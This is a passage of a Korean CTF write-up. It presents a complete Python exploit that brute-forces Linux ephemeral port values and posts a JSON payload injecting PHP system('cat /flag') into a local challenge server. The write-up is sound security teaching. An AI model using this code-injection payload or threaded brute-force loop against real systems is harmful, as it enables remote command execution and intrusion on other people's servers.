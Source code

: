 ### 2-3. 공격 페이로드 작성
운영체제마다 다르지만 리눅스에선 임시 포트가 32768에서 60999 사이에 할당되므로 요첨 범위를 설정해줌.

```python
EPHEMERAL_MIN = 32768
EPHEMERAL_MAX = 60999  # PHP 코드가 43개 포트 범위로 요청하므로 넉넉하게 잡음
MAX_TRIES = 10000  # 최대 시도 횟수 제한
```
JSON 페이로드를 보내기 위해 URL를 구성하고 페이로드와 헤더를 설정함.

```python
def send_attack(probe_start):
    url = f"{TARGET_URL}?probe={probe_start}"
    payload = payload_template.format(MAG)
    headers = {"Content-Type": "application/json"}

응답의 HTTP 상태 코드가 200이고 응답 본문에 `"__HIT__"`가 포함되어 있으면 공격 성공으로 간주하여 `flag`값을 출력함

```python
        if response.status_code == 200 and MAG in response.text:
            print(f">>> HIT probe={probe_start}")
            print("\n".join(response.text.splitlines()[:10]))
```
작성된 최종 python 코드는 다음과 같음
```python
import requests
import random
import time
from concurrent.futures import ThreadPoolExecutor

# --- 설정 ---
TARGET_URL = "http://localhost:8080/index.php"
MAG = "__HIT__"  # PHP 코드가 echo하는 히트 마커
# JSON 페이로드: signal="Arrival"일 때 logogram 명령어 실행, 플래그 파일 cat 명령 포함
payload_template = '{{"signal":"Arrival","logogram":"echo \\"{}\\n\\"; system(\'cat /flag\');"}}'

EPHEMERAL_MIN = 32768
EPHEMERAL_MAX = 60999  # PHP 코드가 43개 포트 범위로 요청하므로 넉넉하게 잡음
MAX_TRIES = 10000  # 최대 시도 횟수 제한

def send_attack(probe_start):
    url = f"{TARGET_URL}?probe={probe_start}"
    payload = payload_template.format(MAG)
    headers = {"Content-Type": "application/json"}
    try:
        response = requests.post(url, data=payload, headers=headers, timeout=3)
        if response.status_code == 200 and MAG in response.text:
            print(f">>> HIT probe={probe_start}")
            print("\n".join(response.text.splitlines()[:10]))
    except requests.RequestException:
        pass  # 예외 무시, 재시도 로직도 가능

if __name__ == "__main__":
    print("Start Exploit Attack")
    tries = 0
    with ThreadPoolExecutor(max_workers=50) as executor:
        while tries < MAX_TRIES:
            probe = random.randint(EPHEMERAL_MIN, EPHEMERAL_MAX - 42)
            executor.submit(send_attack, probe)
            tries += 1
            time.sleep(0.005)  # 서버 과부하 방지

    print("Finished attack loop.")
```

